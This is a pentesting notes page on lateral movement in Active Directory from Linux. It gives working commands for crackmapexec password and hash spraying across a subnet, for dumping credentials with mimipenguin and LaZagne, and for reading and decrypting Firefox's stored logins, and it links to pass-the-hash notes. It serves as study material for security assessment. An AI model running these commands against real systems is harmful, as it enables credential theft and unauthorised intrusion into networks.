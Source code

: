 ```yaml
---
title: Lateral Movement in Active Directory from Linux
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - active
  - directory
  - ldap
  - linux
---
```

# Lateral Movement in Active Directory from Linux

[Index of Active Directory](active-directory.md)

[Hardening and auditing Active Directory ](hardening-auditing-active-directory.md)

!!! tip "Attacking from linux"
	- [Enumerating Active Directory from Linux](active-directory-from-linux-enumeration.md)
	- [Attacking Active Directory from Linux](active-directory-from-linux-attacks.md)
	- [Lateral Movement in Active Directory from Linux](active-directory-from-linux-lateral-movement.md)
	- [Privileges escalation in Active Directory from Linux](active-directory-from-linux-privilege-escalation.md)

!!! tip "Attacking from Windows"
	- [Enumerating Active Directory from Windows](active-directory-from-windows-enumeration.md)
	- [Active directory: connecting to other hosts](active-directory-connections.md)
	- [Attacking Active Directory from Windows](active-directory-from-windows-attacks.md)
	- [Lateral Movement in Active Directory from Windows](active-directory-from-windows-lateral-movement.md)
	- [Privileges escalation in Active Directory from Windows](active-directory-from-windows-privilege-escalation.md)



##  Spraying password technique in the domain with crackmapexec

```
# Spraying password with crackmapexec
crackmapexec smb $ip/23 -u /folder/userlist.txt -u administrator -H 88ad09182de639ccc6579eb0849751cf --local-auth --continue-on-success | grep +
# --continue-on-success:  continue spraying even after a valid password is found. Useful for spraying a single password against a large user list
# --local-auth:  if we are targetting a non-domain joined computer, we will need to use the option --local-auth. The --local-auth flag will tell the tool only to attempt to log in one time on each machine which removes any risk of account lockout.
# -H: hash
```

**This technique, while effective, is quite noisy and is not a good choice for any assessments that require stealth.** 

## Attacking SAM 

If we have a foothold in the target machine, we can retrieve other credentials existing in the host memory:

[See Attacking sam](attacking-sam.md)


## Memory and cache: mimipenguin, lazagne and Firefox_decrypt

Many applications and processes work with credentials needed for authentication and store them either in memory or in files so that they can be reused. 

[mimipenguin](https://github.com/huntergregal/mimipenguin)

```shell-session
sudo python3 mimipenguin.py
```


[lazagne](https://github.com/AlessandroZ/LaZagne)

```shell-session
sudo python2.7 laZagne.py all

# And browsers:
sudo python3 laZagne.py browsers

```

Firefox stored credentials:

```bash
ls -l .mozilla/firefox/ | grep default 

cat .mozilla/firefox/xxxxxxxxx-xxxxxxxxxx/logins.json | jq .
```

The tool [Firefox Decrypt](https://github.com/unode/firefox_decrypt) is excellent for decrypting these credentials, and is updated regularly. It requires Python 3.9 to run the latest version. Otherwise, `Firefox Decrypt 0.7.0` with Python 2 must be used.

```
git clone https://github.com/unode/firefox_decrypt.git   
cd firefox_decrypt 
python firefox_decrypt.py
```


## Pass the Hash (PtH)

A [Pass the Hash (PtH)](https://attack.mitre.org/techniques/T1550/002/) attack is a technique where an attacker uses a password hash instead of the plain text password for authentication.

- Pass the Hash with Mimikatz (Windows)
- Pass the Hash with PowerShell Invoke-TheHash (Windows)
- Pass the Hash with Impacket (Linux)
- Pass the Hash with CrackMapExec (Linux)
- Pass the Hash with evil-winrm (Linux)
- Pass the Hash with RDP (Linux)
- UAC Limits Pass the Hash for Local Accounts

[See Pass the Hash](pass-the-hash.md).
